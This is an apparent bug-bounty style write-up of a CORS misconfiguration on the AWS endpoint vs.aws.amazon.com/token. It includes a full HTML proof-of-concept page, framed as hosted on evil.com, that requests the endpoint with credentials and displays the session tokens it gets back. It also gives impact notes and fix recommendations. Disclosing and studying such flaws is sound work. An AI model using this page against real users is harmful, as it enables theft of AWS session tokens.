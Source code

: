 # 🔓 CORS Misconfiguration on AWS (`vs.aws.amazon.com/token`)

## 👋 Hello Hackers!!! 

While testing the `vs.aws.amazon.com/token` endpoint, I discovered a
**CORS misconfiguration** that allows an attacker-controlled origin to
interact with sensitive AWS session and visitor tokens. The endpoint
reflects the `Origin` header and sets:

- `Access-Control-Allow-Origin: <attacker-controlled-origin>`  
- `Access-Control-Allow-Credentials: true`  

This combination makes it possible for any malicious website to steal
AWS tokens from logged-in users.

---

## ⚡ Steps to Reproduce

1. Log in to AWS in a web browser.  
2. Host or open a malicious HTML page (example:  
   `https://evil.com/poc.html`) with the following code:

```html
<!DOCTYPE html>
<html>
<head>
  <title>CORS PoC</title>
  <style>
    body { font-family: monospace; padding: 20px; }
    button { padding: 8px 16px; margin-bottom: 12px; }
    pre {
      white-space: pre-wrap;   /* wrap long lines */
      word-wrap: break-word;   /* break long words */
      background: #111;
      color: #0f0;
      padding: 10px;
      border-radius: 5px;
    }
  </style>
</head>
<body>
  <button onclick="getToken()">Get Token</button>
  <pre id="output">— no response yet —</pre>

  <script>
    function getToken() {
      fetch("https://vs.aws.amazon.com/token", {
        method: "POST",
        credentials: "include", // include cookies
        headers: {
          "Content-Type": "application/json"
        },
        body: "{}"
      })
      .then(res => res.json())  // try JSON parse
      .then(data => {
        document.getElementById("output").innerText =
          JSON.stringify(data, null, 2); // formatted
      })
      .catch(async err => {
        try {
          let text = await err.text();
          document.getElementById("output").innerText = text;
        } catch {
          document.getElementById("output").innerText = "Error: " + err;
        }
      });
    }
  </script>
</body>
</html>
 
```
3. Visit the page while authenticated to AWS.
4. Click the Get AWS Token button.
5. Observe that the response returns sensitive session/visitor tokens
from vs.aws.amazon.com, even though the request originated from a
malicious site.

## 🖼️ Proof of Concept(PoC)
![IMG_9726](https://github.com/user-attachments/assets/7a0ade34-a585-4432-942f-d5941c0e8a5b)
![IMG_9727](https://github.com/user-attachments/assets/5dec2c3a-4fe1-43e4-a61c-880a29123c00)

## 🎯 Impact

- An attacker can exfiltrate AWS session/visitor tokens (awsd2c-token) from any logged-in user.
- These tokens are long-lived (Max-Age=31536000) and could be used to:
  - 🕵️ Track/correlate users across devices and services.
  - ⚠️ Potentially hijack sessions if combined with other weaknesses.
  - 🔑 Access metadata intended only for authenticated users.
**Severity: 🔴 Critical (CVSS 9.3)**

## 💡 Takeaways
- Even small misconfigurations (like reflecting Origin) can lead to serious credential leakage.
- Long-lived tokens increase the window of exploitation.
- CORS should always be restricted to trusted domains only — never dynamic reflection.
- Adding Access-Control-Allow-Credentials: true without strong origin checks is a red flag.

## ✅ Recommendation
- Do not dynamically reflect the Origin header.
- Restrict Access-Control-Allow-Origin to trusted domains only (e.g., https://aws.amazon.com).
- Avoid setting Access-Control-Allow-Credentials: true with untrusted origins.

**Signing off ✌️**

**[ROHAN S](https://www.linkedin.com/in/rohanscr7123/)** 

(**Aspiring Security Engineer**)



